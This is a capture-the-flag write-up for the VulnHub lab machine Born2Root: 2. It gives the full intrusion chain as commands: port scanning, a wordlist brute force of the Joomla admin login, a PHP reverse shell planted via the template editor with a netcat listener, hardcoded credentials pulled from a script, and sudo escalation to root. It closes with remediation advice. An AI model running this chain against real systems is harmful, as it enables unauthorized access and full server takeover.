

# Born2Root: 2 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.9 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | `/root/flag.txt` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/born2root-2,) |

## Attack Summary

`nmap` → Joomla on `/joomla/` (CeWL wordlist + Burp brute) → PHP reverse shell via template editor → `/opt/scripts/fileshare.py` creds → `su tim` → `sudo su` → root

## Methodology

1. Network discovery and port scan
2. Directory brute-force reveals Joomla installation
3. CeWL wordlist generation + Burp Suite brute-force
4. Joomla admin access → PHP reverse shell via beez3 template
5. Credential discovery in `/opt/scripts/fileshare.py`
6. `sudo -l` → full sudo rights → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.9
```

Open ports:
- 22/tcp — SSH
- 88/tcp — HTTP (Joomla)
- 111/tcp — RPC


---

## Step 2: Web Enumeration

```bash
dirb http://192.168.1.9/
```

`dirb` reveals `/joomla/`. Browsing the site shows "Tim's Blog", suggesting the username `tim`.


---

## Step 3: Credential Attack

Generate a wordlist from the Joomla site content:

```bash
cewl http://192.168.1.9/joomla/ > dict.txt
```

Brute-force the Joomla admin login with Burp Suite Intruder (username: `admin`, wordlist: `dict.txt`).

**Credentials found:** `admin` / `travel`

---

## Step 4: PHP Reverse Shell

Log in to Joomla admin at `http://192.168.1.9/joomla/administrator/`. Navigate to:
**Extensions → Templates → Beez3 → index.php**

Replace `index.php` with a PHP reverse shell (PentestMonkey), set LHOST/LPORT, save.

Start a listener:

```bash
nc -lvp 1234
```

Trigger the shell by visiting `http://192.168.1.9/joomla/templates/beez3/index.php`.

Upgrade the TTY:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```


---

## Step 5: Credential Discovery

```bash
cd /opt
ls
cd scripts
ls
cat fileshare.py
```

The file contains hardcoded credentials: **`tim` / `lulzlol`**

---

## Step 6: Privilege Escalation

```bash
su tim
# password: lulzlol
sudo -l
```

Output shows: `(ALL : ALL) ALL` — tim has full sudo rights.

```bash
sudo su
cd /root
ls
cat flag.txt
```



---

## Lessons Learned

1. **CeWL wordlist attack** — site-specific password lists dramatically increase brute-force success
2. **Joomla template editor** provides direct PHP execution — protect admin panel with 2FA and strong passwords
3. **Hardcoded credentials** in scripts (`fileshare.py`) are a critical misconfiguration
4. **Excessive sudo rights** (`sudo su` without password) equals direct root access

## Remediation

| Vulnerability | Fix |
|---|---|
| Weak Joomla admin password | Enforce strong passwords; enable 2FA |
| PHP code execution via template editor | Restrict template editing to trusted admins only |
| Hardcoded credentials in scripts | Use environment variables or a secrets manager |
| Full sudo rights | Apply principle of least privilege; restrict sudo to specific commands |
